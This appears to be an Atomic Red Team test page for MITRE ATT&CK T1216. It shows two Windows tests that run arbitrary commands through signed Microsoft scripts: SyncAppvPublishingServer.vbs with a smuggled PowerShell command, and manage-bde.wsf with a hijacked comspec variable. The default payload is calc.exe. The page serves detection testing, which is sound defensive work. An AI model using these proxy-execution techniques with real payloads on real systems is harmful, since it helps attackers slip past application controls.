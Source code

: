 ```yaml
---
tags: [T1216, atomic_test]
filename: "[[T1216 - Signed Script Proxy Execution]]"
---
```

# T1216 - Signed Script Proxy Execution

## Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.
Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 275d963d-3f36-476c-8bef-a2a3960ee6eb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #2 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


**auto_generated_guid:** 2a8f2d3c-3dec-4262-99dd-150cb2a4d63a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | path | %windir%&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript %windir%\System32\manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=%windir%\System32\cmd.exe
```





<br/>
